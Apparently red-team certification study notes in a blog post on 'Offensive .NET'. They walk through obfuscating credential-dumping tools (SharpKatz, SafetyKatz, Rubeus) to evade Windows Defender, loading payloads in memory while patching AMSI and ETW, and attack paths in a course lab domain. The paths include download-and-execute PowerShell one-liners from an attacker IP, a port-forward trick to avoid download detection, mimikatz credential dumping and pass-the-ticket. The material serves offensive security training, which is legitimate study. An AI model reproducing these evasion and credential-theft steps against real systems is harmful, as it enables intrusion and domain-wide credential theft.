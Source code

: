 ```yaml
---
title: "4 - Offensive .NET"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser5.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Use Minimal obfuscation and String manipulation to bypass Win Defender"
description: "Use Minimal obfuscation and String manipulation to bypass Win Defender"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows
  - bypass 
toc: true
---
```


# Offensive .NET

**A repo of popular Offensive C# tools**:

[SharpCollection on GitHub](https://github.com/Flangvik/SharpCollection)

[Mimikatz on GitHub](https://github.com/gentilkiwi/mimikatz)


## Tradecraft - AV bypass

> We will focus mostly on bypass of signature based detection by Windows Defender

For that, we can use techniques like Obfuscation, String Manipulation etc.

We can use DefenderCheck:

[DefenderCheck on GitHub](https://github.com/matterpreter/DefenderCheck)

> To identify code and strings from a binary that Windows Defender may flag.

This helps us in deciding on modifying the source code and minimal obfuscation.


### SharpKatz

Let's check SharpKatz.exe for signatures using DefenderCheck
```powershell
DefenderCheck.exe <Path to Sharpkatz binary>
```

- Open the project in Visual Studio.
- Press **CTRL + H**
- Find and replace the string "Credentials" with "Credents" you can use any other string as an replacement. (Make sure that string is not present in the code)
- Select the scope as **Entire Solution**.
- Press **Replace All** button.
- Build and recheck the binary with *DefenderCheck*.
- Repeat above steps if still there is detection

### Safetykatz

For SafetyKatz, we used the following steps
- Download latest version of Mimikatz and **Out-CompressedDll.ps1**

Run the Out-CompressedDll.ps1 PowerShell script on Mimikatz binary and save the output to a file
```powershell
Out-CompressedDll <Path to mimikatz.exe> > 	outputfilename.txt
```	

[Out-CompressedDll.ps1 in PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)


- Copy the value of the variable **$EncodedCompressedFile** from the output file above and replace the value of **compressedMimikatzString** variable in the **Constants.cs** file of SafetyKatz.

- Copy the byte size from the output file and replace it in **Program.cs** file on the line 111 & 116.
- Build and recheck the binary with *DefenderCheck*

### BetterSafetyKatz

For BetterSafetyKatz, we used the following steps
- Download the latest release of "mimikatz_trunk.zip" file.
- Convert the file to base64 value

![Alt text](/assets/images/posts/crtp/3.png){: .align-center}




Modify the **Program.cs** file.

– Added a new variable that contains the base64 value of **mimikatz_trunk.zip** file.
– Comment the code that downloads or accepts the mimikatz file as an argument.
– Convert the base64 string to bytes and pass it to **zipStream** variable

![Alt text](/assets/images/posts/crtp/4.png){: .align-center}




### Rubeus

For Rubeus.exe, we used **ConfuserEx** to obfuscate the binary

[ConfuserEx on GitHub](https://github.com/mkaring/ConfuserEx)


Launch ConfuserEx:
- In Project tab select the Base Directory where the binary file is located.
- In Project tab Select the Binary File that we want to obfuscate.
- In Settings tab add the rules.
- In Settings tab edit the rule and select the preset as **Normal**.
- In Protect tab click on the protect button.

> We will find the new obfuscated binary in the Confused folder under the Base Directory.

![Alt text](/assets/images/posts/crtp/5.png){: .align-center}



- After obfuscating the binary with ConfuserEx rescan using DefenderCheck we can see the detection of GUID.
- Generate and modify the GUID and compile Rubeus again and rerun the ConfuserEx on the Rubeus.exe binary.

![Alt text](/assets/images/posts/crtp/6.png){: .align-center}



## Payload Delivery     


We can use NetLoader to deliver our binary payloads.

[NetLoader on GitHub](https://github.com/Flangvik/NetLoader)


It can be used to load binary from filepath or URL and patch AMSI & ETW while executing:
```powershell
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL:
```powershell
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

### [1] - Getting DA through dcorp-ci
```powershell
iex (iwr http://<ip>/sbloggingbypass.txt -UseBasicParsing)
# bypass ASMI manually
iex ((New-Object Net.WebClient).DownloadString('http://<ip>/PowerView.ps1'))
FInd-DomainUserLocation
winrs -r:<machine> <command> //example winrs -r:dcorp-mgmt hostname;whoami
iwr http://<ip>/Loader.exe -OutfFile C:\Users\Public\Loader.exe
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```


> [NOTE] Windows Defender will block all binaries/executables that are downloaded from remote sources
So, we will configure a portforward to request payload from local loopback. 

> Even if Defender is watching this, because is not remotely the payload its not blocked

```powershell
$null | winrs -r:dcorp-mgmt “netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<attacker IP>”
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

Create a new PS with high integrity:
```powershell
Rubeus.exe asktgt /user:svcadmin /aes256:<dc hash> /opsec /creanetonly:C:\windows\System32\cmd.exe /show /ptt
```


### [2] - Getting DA through derivative local admin

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose

Enter-PSSession <the machine we have local admin access>
```

> we have to bypass AMSI here, but the shell is in **ConstrainedLanguage** Mode

```powershell
$ExecutionContext.SessionState.LanguageMode
```

> we need to search what kind o policy is blocking us : **applocker**, **wdigest**
 
 ```powershell  
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
or
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 # "AppLocker = Software Restrict Policy Version 2"
```

Lets copy mimiEx to the target machine

From attacker:
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

> Enter the machine again with PSSession and execute the MimiEx.ps1


From attacker:
```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe “sekurlsa::opassth” /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:<hash> /run:cmd.exe" “exit”
```

- This will open a shell with the hash we got with **mimiEx**
- Firstly found what machines this user has local admin access

> [EXTRA] **Session: Service From 0** = means that there is a service using the account as a service account
> so, there is a chance of cached cleartext password on mimikatz results



In the new shell:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

> At this point, we can access dump the credentials like we did before in the last path
> Opening a portforward and dump through local loopback                                          ]

